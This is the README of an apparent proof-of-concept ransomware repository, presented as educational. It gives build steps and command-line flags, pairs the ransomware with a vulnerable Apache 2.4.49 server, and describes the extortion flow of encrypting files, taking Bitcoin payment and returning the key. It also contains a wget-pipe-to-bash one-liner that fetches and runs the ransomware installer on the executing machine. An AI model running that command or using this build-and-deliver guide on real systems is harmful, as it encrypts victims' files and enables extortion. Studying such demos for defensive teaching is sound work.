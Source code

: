 # Yet Another Ransomware Demo (YARD)

## Introduction
WARNING: Educational Purposes Only

This repository contains a proof-of-concept ransomware implementation. It is intended for educational purposes only and should never be used in a real-world environment. 
Running this code on a system you don't have explicit permission to modify could result in data loss or system damage.

## Repository Structure
This project is a mono-repo of 3 components
1. apache-httpd - Configs and Dockerfiles to build a vulnerable apache httpd 2.4.49 server susceptible to remote code execution
2. attacker - Ransomware attacker's public key, private key and helper scripts
3. ransomware - Ransomware's source code

## Dependencies
This demo was built on a ubuntu-amd64-18.06 VM. There is no guarantee support for other OS-es.
You can find the setup script for an ubuntu-amd64-18.06 VM that installs all the OS dev dependencies at `ransomware/scripts/ubuntu-dev-setup.sh`.
- make
- python3 pip3
- tkinter
- virtualenv


## Usage

### Building/Packaging the Payload (Optional)
The **payload** of the ransomware consist of 2 items:
1. The attacker's public key
2. The binary of the ransomware

**1. Attacker's public key**
The project comes with a copy of a sample attacker's public key at `attacker/public_key.pem` which will be used for all the official releases on github.
Should you need to generate a new key, you can use the `attacker/gen-attacker-key.py` script.

**2. Building the ransomware**
To build the ransomware, we will need a python environment with the packages recorded in `ransomware/requirements.txt`.
It is recommended that you create a virtualenv to contain the packages:
```sh
# from the root of the project, cd to ransomware subdir
cd ransomware

# create a venv
python3 -m virtualenv venv

# activate the venv
source venv/bin/activate

# install the required packages
pip install -r requirements.txt

# build the ransomware source code with the activated venv
make build
```

After building, you should see a binary file at `ransomware/dist/ransomware` directory of the project.
Note that by default, the ransomware looks for a file named `public_key.pem` at its current directory, this can be changed along with other configurations of the ransomware with the flags below:
```sh
./ransomware --help

--pub PUBLIC_KEY_FILE
	the public key to encrypt the sym key with
--path OS_ROOT_PATH   the directory to start encrypting from, can be changed
	to a specific folder to run on that folder only
--enc-sym-key ENC_SYM_KEY
	the location to save the encrypted sym key
```

### Installing the Payload on target
As part of the PoC of delivering a ransomware, we've crafted a shell script `ransomware/scripts/dangerous-install.sh` to install a released version of the `ransomware` along with a `public_key.pem` on a target system. The script can be executed on a remote system with this command:
```sh
# WARNING: THIS WILL RUN THE RANSOMWARE ON THE SYSTEM YOU'RE RUNNING THIS COMMAND ON
wget -q -O - https://github.com/yet-another-ransomware-demo/yet-another-ransomware-demo/raw/main/ransomware/scripts/dangerous-install.sh | bash
```

### Paying the ransom (decrypting your files)
After the ransomware has been executed, it creates a key file in the home directory of the user it has executed as.
In order for the user to decrypt their files, the user will need to make a payment to the given BTC Address with a message attached as mentioned in the ransomware's UI.

The address is an anonymous Bitcoin Address for the attacker to receive payments on, while the message is the encrypted form of the symmetric key that was used to encrypt the files.

### Attacker responds with the decryption key
Given the encrypted symmetric key from the message attached with the payment, the attacker will then decrypt the message with their private key.
The attacker would then send this decrypted symmetric key back to the target through other means e.g. anonymous mail, which the target can then use to decrypt their files.


## Development

### Encryption
Note that by default, this project will run the ransomware demo against the `os_root` directory in its current directory.
This can be changed with the flags 
You can generate an fake `os_root` directory using:
```sh
# cd into the ransomware dir
cd ransomware

# generate the fake os_root dir
make mock-gen

# view the contents of the files in the fake os_root dir
make mock-view
```

We'll now make a copy of the sample attacker's public key located at `attacker/public_key.pem`
```sh
cp attacker/public_key.pem ransomware/public_key.pem
```

With the attacker's public key, we can now start the ransomware demo with:
```sh
# to run the demo
make run

# or you could also build the demo as a binary file and run it
make build
./dist/ransomware
```

Running the demo does the following:
1. Generates a Symmetric Key
2. Encrypts the Generated Symmetric Key with the attacker's public key (uses `pulic_key.pem` in the same directory by default, can be modified with `--pub` flag) and saves the encrypted content as a file called `key` in the current directory (can be modified with `--enc-sym-key`)
3. Encrypt the files with the Generated Symmetric Key in Step 1.
4. Show Ransom UI

After the demo has ran, you are free to close the UI, as you can re-open it with `./main` or `make run` again. This command checks for the `key` file and if it exists, it wouldn't run the encryption again.

#### Decryption
To decrypt the files that have been encrypted, you will need to send the contents of the `key` file to the attacker when making payment.

The attacker would then decrypt the `key` file's contents with their `private_key.pem`.
To simulate this happening, you can run:
```sh
# simulate attacker decrypting the key
make attacker-decrypt
# stdout:
Decrypted contents: n1f6E3RofoXlIeUFP2onpcsi7EcBYd-zgrOG4lNdcdc=
```

With the key e.g: `n1f6E3RofoXlIeUFP2onpcsi7EcBYd-zgrOG4lNdcdc=`, we would enter this key into the textbox in the GUI and press the decrypt button.
![](./docs/demo-decrypt.png)
